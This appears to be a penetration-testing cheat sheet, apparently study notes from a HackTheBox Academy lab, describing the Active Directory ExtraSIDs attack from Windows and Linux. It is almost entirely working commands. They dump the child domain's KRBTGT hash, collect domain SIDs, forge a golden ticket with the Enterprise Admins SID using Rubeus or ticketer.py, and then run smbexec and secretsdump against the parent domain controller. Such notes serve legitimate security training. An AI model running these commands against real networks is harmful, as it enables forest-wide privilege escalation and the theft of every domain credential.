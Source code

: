 # ExtraSIDs attack

### <mark style="color:yellow;">ExtraSIDs Attack from Windows</mark>

Domain Trusts - Child -> Parent. After compromising child domain add admin SID to a user for golden ticket.

<details>

<summary>Requirements</summary>

```
The KRBTGT hash for the child domain
The SID for the child domain
The name of a target user in the child domain (does not need to exist!)
The FQDN of the child domain.
The SID of the Enterprise Admins group of the root domain.
With this data collected, the attack can be performed with Mimikatz.
```

</details>

#### Get the KRBTGT hash

```powershell
# With secretsdump
secretsdump.py htb-student_adm@10.129.180.47

# Or mimikatz
lsadump::dcsync /user:LOGISTICS\krbtgt
```

#### Get SID of child domain

```powershell
Get-DomainSID
```

#### Get FQDN of child domain

```powershell
Get-DomainTrust
```

#### SID of "Enterprise Admins" group of root domain

```powershell
Get-DomainGroup -Domain ZENCOROP.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

#### Request Golden Ticket

```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:ZEN.ZENCORP.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

### <mark style="color:yellow;">ExtraSIDs Attack from Linux</mark>

To gather all the information needed.

```bash
# Get KRBTGT
secretsdump.py logistics.zencorp.local/mczen@172.16.5.240 -just-dc-user zencorp/krbtgt

# Get SID
lookupsid.py logistics.zencorp.local/mczen@172.16.5.240 

# Get Enterprise Admins group SID
lookupsid.py logistics.zencorp.local/mczen@172.16.5.240

# Request a ticket with adding admin SID
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain-sid S-1-5-21-2806153819-209893948-922872689 -domain LOGISTICS.ZENCORP.LOCAL -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 mczen

# Connect or Dump hashes
KRB5CCNAME=mczen.ccache smbexec.py -k -no-pass ACADEMY-EA-DC01.ZENCORP.LOCAL
KRB5CCNAME=mczen.ccache secretsdump.py -k -no-pass ACADEMY-EA-DC01.ZENCORP.LOCAL
```
